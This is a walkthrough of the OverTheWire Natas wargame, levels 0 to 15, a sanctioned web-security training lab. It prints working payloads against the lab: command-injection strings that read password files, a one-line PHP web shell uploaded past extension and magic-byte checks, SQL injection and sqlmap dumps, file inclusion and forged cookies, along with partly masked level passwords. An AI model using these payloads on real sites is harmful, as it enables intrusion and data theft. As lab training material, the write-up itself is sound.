

## Description 

> Natas teaches the basics of serverside web-security.
> 
> Each level has access to the password of the next level. Your job is to somehow obtain that next password and level up. **All passwords are also stored in /etc/natas_webpass/**. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.

Play [here](https://overthewire.org/wargames/natas/) !


## Level 0

> You can find the password for the next level on this page.

<br> 

Connect on ``http://natas0.natas.labs.overthewire.org/`` with this credentials : ``natas0:natas0``.

Check the source code with ``CTRL + U``.

There is a **HTML** comment with the next password : 
```html
<body>
<h1>natas0</h1>
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is g9D9cREhsl------PfMZVzeFK6 -->
</div>
</body>
</html>
```
<br>

Connect to the next level on `http://natas1.natas.labs.overthewire.org/` with :

- Username : ``natas1``
- Password : ``g9D9cREhs------PfMZVzeFK6``

<br>

## Level 1

> You can find the password for the next level on this page, but rightclicking has been blocked !

<br>

Like the previous level, we don't need to use right clicking. Use ``CTRL + U`` and read the source code. There is the password for the next level : 
```html
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">
<h1>natas1</h1>
<div id="content">
You can find the password for the
next level on this page, but rightclicking has been blocked!

<!--The password for natas2 is h4ubbcXr-------LppXbOogfBZ7 -->
</div>
</body>
</html>
```

<br>

Connect to the next level on `http://natas2.natas.labs.overthewire.org/` with :

- Username : ``natas2``
- Password : ``h4ubbcXr-----------bOogfBZ7``

<br>

## Level 2

> There is nothing on this page.

<br>

Here too, check the source code. 
```html
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page

</div>
</body></html>
```

The ``img`` balise uses a file in ``files`` folder. Go to ``http://natas2.natas.labs.overthewire.org/files/`` and we can see another file called ``users.txt``. 

Read this one : 
```text
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ---------SvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

<br>

Connect to the next level on `http://natas3.natas.labs.overthewire.org/` with :

- Username : ``natas3``
- Password : ``G6ctbMJ5Nb---------xGHhQ7I6W8Q``

<br>

## Level 3

> There is nothing on this page.

<br>

As always, check the source code. We have this comment : *No more information leaks!! Not even Google will find it this time...*

It is a hint. Look at ``robots.txt`` file : ``http://natas3.natas.labs.overthewire.org/robots.txt`` 

There is a ``/s3cr3t/`` directory. Go in and we have a ``users.txt`` file.

Read its content on : ``http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt``

<br>

Connect to the next level on `http://natas4.natas.labs.overthewire.org/` with :

- Username : ``natas4``
- Password : ``tKOcJIbzM4----------4434fGZQm``

<br>

## Level 4

> Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

<br>

To solve the challenge, we could use **cURL** to modify the request. Add a ``Referer`` header and send it : 
```bash
curl 'http://natas4.natas.labs.overthewire.org/' -u "natas4:tKOcJIbzM4---------n5Zr4434fGZQm" --header "Referer: http://natas5.natas.labs.overthewire.org/"
```

*``-u`` : Basic authentification*

Look at the response : 
```html
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0Nsr----------eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

It works ! 

<br>

Connect to the next level on `http://natas5.natas.labs.overthewire.org/` with :

- Username : ``natas5``
- Password : ``Z0NsrtIkJoK----------RN82Au2oD``

<br>

## Level 5

> Access disallowed. You are not logged in.

<br>

Press **F12** to show the developer tools in your web browser.

Move into the ``Stockage`` section : 


The ``loggedin`` name is interesting. As you can see, the value is set to **0**. 

Double clicking on and set to **1** : 


Refresh the page and you will see the password for the next level ! 


<br>

Connect to the next level on `http://natas6.natas.labs.overthewire.org/` with :

- Username : ``natas6``
- Password : ``fOIvE0MD------------Ot2EfXR6uQgR``

<br>

## Level 6

> Input secret :

<br>

We have the following page : 


Enter a random value and you will see that we need to know this secret.

Click on the ``View sourcecode`` link.

There is some **PHP** code : 
```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```


Thanks to the ``include`` instruction, we discover a new link. 

So, go to ``http://natas6.natas.labs.overthewire.org/includes/secret.inc`` and check the source code : 
```html
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

This is the secret ! 

Return on home page and submit the secret : 


<br>

Connect to the next level on `http://natas7.natas.labs.overthewire.org/` with :

- Username : ``natas7``
- Password : ``jmxSiH3SP---------8v1cIEdjXWr``

<br>

## Level 7

> *None*

<br>

We have the following page : 


As always, check the source code : 
```html
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```


Here, we will exploit a **LFI** (Local File Inclusion). The ``?page=`` parameter is vulnerable.

We know that the password is stored in ``/etc/natas_webpass/natas8``.

Go to ``http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`` : 



<br>

Connect to the next level on `http://natas8.natas.labs.overthewire.org/` with :

- Username : ``natas8``
- Password : ``a6bZCNYwdKqN----------iImQQhAB``

<br>

## Level 8

> Input secret :

<br>

Like the level 6, click on the ``View sourcecode`` link. There are some **PHP** code : 
```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

The function ``encodeSecret`` shows us how the secret is encoded : 
1) It uses **base64** to encode.
2) It reverses the string.
3) It uses **bin2hex** encoding.

So, to decode this, we need to : 
1) Convert with **hex2bin**.
2) Reverse the string.
3) **Base64** decode.

Let's start : 

1) Use an online converter like https://onlinephp.io/hex2bin : 
```text
==QcCtmMml1ViV3b
```

2) To reverse the string, use : https://onlinestringtools.com/reverse-string
```text
b3ViV1lmMmtCcQ==
```

3) Now, decode the **base64** string with : 
```bash
exegol-hackthebox /workspace # echo 'b3ViV1lmMmtCcQ==' | base64 -d
oubWYf2kBq
exegol-hackthebox /workspace #
```

Return and submit the secret : 


<br>

Connect to the next level on `http://natas9.natas.labs.overthewire.org/` with :

- Username : ``natas9``
- Password : ``Sda6t0v-------------aplvlJFd``

<br>

## Level 9

> Find words containing :

<br>

Like the previous level, click on ``View sourcecode`` link.

We have the following code : 
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```


It seems that the program search for a word in ``dictionary.txt``. 

Test by submitting ``Hello`` : 


Here, we need to exploit command injection. Our payload will be the following : 
``a; cat /etc/natas_webpass/natas10`` 

The ``;`` is used to exploit the command injection.

Submit the payload : 


<br>

Connect to the next level on `http://natas10.natas.labs.overthewire.org/` with :

- Username : ``natas10``
- Password : ``D44Ecs------------z3hxX1Z4MCE``

<br>

## Level 10

> For security reasons, we now filter on certain characters

<br>

This level is similar to the previous. 

Check the **PHP** code :
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Now, some characters are blocked.

To bypass this, we could use ``${IFS}``, which is a bash variable : 
``a ${IFS} cat /etc/natas_webpass/natas11``


<br>

Connect to the next level on `http://natas11.natas.labs.overthewire.org/` with :

- Username : ``natas11``
- Password : ``1KFqoJXi----------ESDW4fSysRoIg``

<br>

## Level 11

> Cookies are protected with XOR encryption

<br>

Press **F12** and you can see cookies. There is a ``data`` cookie : 


If you try to decode it, the output is non-readable.


Look at the source code : 
```php
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);

?>
```


As you can see, the cookies are encoded with XOR.

<br>

### /!\ XOR properties

> XOR encoding has an interesting property, especially if you are interested in cryptanalysis. When you XOR the plaintext message with the ciphertext, you obtain the key: Plaintext XOR Ciphertext -> Key.

Source : https://blog.nviso.eu/2023/10/12/xor-known-plaintext-attacks/

<br>

Do we know the Plaintext and Ciphertext ? Yes.

- Plaintext : ``array( "showpassword"=>"no", "bgcolor"=>"#ffffff")``
	We'll need to change ``no`` to ``yes``.
- Ciphertext : ``MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D``
	This is the encoded cookie.

<br>

### Retrieve the key

To know the key, make a XOR with Plaintext and Ciphertext. I tried to do this with the initial **PHP** code :

```php
<?php
/////////////////// Initial code ///////////////////

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
	$key = '<censored>';
	$text = $in;
	$outText = '';


// Iterate through each character

	for($i=0;$i<strlen($text);$i++) {
		$outText .= $text[$i] ^ $key[$i % strlen($key)];
	}
	return $outText;

}
////////////////////////////////////////////////////

/////////// My code ////////////
function xor_encrypt_v2($in) {

	// Encode in JSON the plaintext !
	$plaintext = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
	$text = $in;
	$outText = '';

	// Iterate through each character

	for($i=0;$i<strlen($text);$i++) {
		$outText .= $text[$i] ^ $plaintext[$i % strlen($plaintext)];
	} 

	return $outText;
}


/// ADD the ciphertext (base64 decode)
$ciphertext = base64_decode("MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D");


// Print the key
echo "Key: ";
echo xor_encrypt_v2($ciphertext);
echo "\n"
?>
```


Execute the script with ``php mycode.php`` : 
```bash
vssksj@debian:~/Desktop$ php Mycode.php 
Key: KNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKL
vssksj@debian:~/Desktop$
```

The strings ``KNHL`` repeats itself, so it is probably the key !

<br>

### Create the cookie

We have the key and we want to generate the ciphertext now.

We know the plaintext and the key, so we could be able to create the desired cookie.

Remember, 
- KEY : ``KNHL``
- PlainText : ``array( "showpassword"=>"no", "bgcolor"=>"#ffffff")``


Thanks to the initial source code, we know that we need to change ``showpassword`` variable to ``yes`` to obtain the password.

Create a little **PHP** script based on the original source code to create the cookie : 
```php
<?php

$plaintext = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
// CHANGE TO YES --------------------/\

function xor_encrypt_v3($in) {
	$key = 'KNHL'; // KEY
	$text = $in;
	$outText = '';
	
	// Iterate through each character
	for($i=0;$i<strlen($text);$i++) {
		$outText .= $text[$i] ^ $key[$i % strlen($key)];
	}
	return $outText;
}

echo "Cookie created ! :\n";
echo base64_encode(xor_encrypt_v3(json_encode($plaintext)));
echo "\n";

?>
```

Execute : 
```bash
vssksj@debian:~/Desktop$ php Mycode.php 
Cookie created ! :
MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
vssksj@debian:~/Desktop$
```

<br>

Return on your web browser and change the ``data`` cookie value.

Refresh the page : 


<br>

Connect to the next level on `http://natas12.natas.labs.overthewire.org/` with :

- Username : ``natas12``
- Password : ``YWqo0pjpcX--------2QxeC1w9QG``

<br>

## Level 12

> Choose a JPEG to upload (max 1KB):

<br>

There is an **JPEG** upload form.
Try to upload a ``.txt`` file : 


As you can see, the extension has changed and the filename too.

Look at the source code : 
```php
<?php

function genRandomString() {

	$length = 10;
	$characters = "0123456789abcdefghijklmnopqrstuvwxyz";
	$string = "";
	
	for ($p = 0; $p < $length; $p++) {
		$string .= $characters[mt_rand(0, strlen($characters)-1)];
	}
	return $string;

}
```

There is a function which generates random filename.

Use **BurpSuite** and intercept the **POST** request : 


Try to change the filename and also increase the ``MAX_FILE_SIZE`` field.

Forward the request : 


The filename has changed but not the extension so we could upload **PHP** files.

Create a **PHP** file and use this code to obtain a webshell : 
```php
<?php system($_GET['cmd']);?>
```

Upload your malicious code : 


Our webshell is uploaded : 


Now, go on ``http://natas12.natas.labs.overthewire.org/upload/9kao7g7arf.php?cmd=id`` to execute ``id`` command : 


It works ! Read the content of ``/etc/natas_webpass/natas13`` file.

<br>

Connect to the next level on `http://natas13.natas.labs.overthewire.org/` with :

- Username : ``natas13``
- Password : ``lW3jYRI02ZK----------f6eDRo6WEj9``

<br>

## Level 13

> For security reasons, we now only accept image files !

<br>

There is another way to bypass protection. We'll use **Magic Bytes** to change the file signature.

For example, if we use the command ``file shell.php`` : 
```bash
exegol-htb-ra OverTheWire $ file shell.php 
shell.php: PHP script, ASCII text
exegol-htb-ra OverTheWire $
```

The system returns that it is a **PHP** script.

Now, if we change the **Magic Bytes** with **Hexedit** to a **JPEG** signature :


/!\ *The list of signatures are available [here](https://en.wikipedia.org/wiki/List_of_file_signatures)* 

I used this one ``FF D8 FF EE`` :


Repeat the ``file`` command : 
```bash
exegol-htb-ra OverTheWire # file shell.php
shell.php: JPEG image data
exegol-htb-ra OverTheWire #
```

It works ! 

Finally, we need to upload the shell. Use **BurpSuite** to intercept the request and don't forget to change the extension, like the previous level ! 

Forward the request : 


Go on ``http://natas13.natas.labs.overthewire.org/upload/fpmmkqxvwu.php?cmd=cat%20/etc/natas_webpass/natas14`` to read the password.

<br>

Connect to the next level on `http://natas14.natas.labs.overthewire.org/` with :

- Username : ``natas14``
- Password : ``qPazSJBm------------7MHk1PGC4DxZMEP``

<br>

## Level 14

> Username and Password

<br>

We have a login form. We can try to see if it is SQL injectable.

Use this payload : ``admin" OR 1=1-- -`` :


And it works ! 
```text
Successful login! The password for natas15 is TTkaI7A---------KV7kRXH1EZRB
```

<br>

Connect to the next level on `http://natas15.natas.labs.overthewire.org/` with :

- Username : ``natas15``
- Password : ``TTkaI7AWG4i-----------kRXH1EZRB``

<br>

## Level 15

> Username : 

<br>

Like the previous level, we need to exploit SQL Injection.

When we input a ``"``, we have an error. 

I tried to enumerate with **UNION** queries but it seems that it is a time-based SQLi, so we'll use **SQLMap** to be more efficient : 

```bash
sqlmap -r request.req --risk=2 --level=3 --dbs
```

Result : 
```bash
available databases [3]:
[*] information_schema
[*] natas15
[*] performance_schema
```

Continue with :
```bash
sqlmap -r request.req --risk=2 --level=3 -D natas15 --tables
```

Result : 
```bash
Database: natas15
[1 table]
+-------+
| users |
+-------+
```

Finally : 
```bash
sqlmap -r request.req --risk=2 --level=3 -D natas15 -T users --dump
```

Result : 
```bash
Table: users
[4 entries]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 6P151OntQe                       | bob      |
| HLwuGKts2w                       | charlie  |
| hROtsfM734                       | alice    |
| TRD7iZr------------uaOlfEjHqj32V | natas16  |
+----------------------------------+----------+
```

<br>

Connect to the next level on `http://natas16.natas.labs.overthewire.org/` with :

- Username : ``natas16``
- Password : ``TRD7iZrd5g----------fEjHqj32V``

<br>

# Conclusion

This was the first part of the natas lab. 

Thanks for reading !
